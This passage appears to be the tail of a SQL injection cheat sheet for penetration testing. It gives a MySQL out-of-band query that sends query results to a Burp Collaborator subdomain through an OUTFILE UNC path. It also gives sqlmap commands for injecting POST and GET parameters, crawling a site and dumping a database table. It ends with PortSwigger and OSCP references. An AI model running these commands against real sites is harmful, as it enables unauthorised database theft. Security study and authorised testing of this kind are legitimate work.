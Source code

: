 * **MySQL**: Only on Windows.
```
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a' 
```


# Automatization with sqlmap

```
# Post
sqlmap -r request.txt -p username

# Get
sqlmap -u "http://example.com/index.php?id=1" -p id

# Crawl
sqlmap -u http://example.com --dbms=mysql --crawl=3
```

> **Note:** `request.txt` is a request saved in BurpSuite.

## Dumping a Table

```
sqlmap -r request.txt -p username -D database_name -T table_name --dump
```

# References

* [https://portswigger.net/web-security/sql-injection/union-attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
* [https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html](https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html)
* [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)